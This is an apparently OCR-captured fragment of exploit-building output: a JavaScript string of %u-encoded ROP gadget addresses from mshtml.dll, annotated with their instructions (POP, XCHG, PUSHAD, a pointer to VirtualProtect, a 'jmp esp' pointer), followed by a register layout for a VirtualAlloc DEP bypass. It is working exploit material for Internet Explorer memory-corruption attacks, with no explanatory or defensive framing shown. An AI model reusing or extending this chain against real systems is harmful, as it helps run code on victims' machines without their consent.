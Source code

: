 ```
    "%u8ccd%u6b69" + // 0x6b698ccd : ,# XCHG EAX,EDX # RETN [mshtml.dll] 
    "%ucf01%u6b33" + // 0x6b33cf01 : ,# POP ECX # RETN [mshtml.dll] 
    "%ub6ce%u6b80" + // 0x6b80b6ce : ,# &Writable location [mshtml.dll]
    "%ueffe%u6b50" + // 0x6b50effe : ,# POP EDI # RETN [mshtml.dll] 
    "%u38e2%u6b45" + // 0x6b4538e2 : ,# RETN (ROP NOP) [mshtml.dll]
    "%u5e4f%u6b4f" + // 0x6b4f5e4f : ,# POP ESI # RETN [mshtml.dll] 
    "%uc0a3%u6b2d" + // 0x6b2dc0a3 : ,# JMP [EAX] [mshtml.dll]
    "%u0f16%u6b43" + // 0x6b430f16 : ,# POP EAX # RETN [mshtml.dll] 
    "%u1348%u6b2d" + // 0x6b2d1348 : ,# ptr to &VirtualProtect() [IAT mshtml.dll]
    "%udfb8%u6b51" + // 0x6b51dfb8 : ,# PUSHAD # RETN [mshtml.dll] 
    "%u0b54%u6b32" + // 0x6b320b54 : ,# ptr to 'jmp esp' [mshtml.dll]
    ""); //  : 


--------------------------------------------------------------------------------------------------


################################################################################

Register setup for VirtualAlloc() :
--------------------------------------------
 EAX = NOP (0x90909090)
 ECX = flProtect (0x40)
 EDX = flAllocationType (0x1000)
 EBX = dwSize
 ESP = lpAddress (automatic)
 EBP = ReturnTo (ptr to jmp esp)

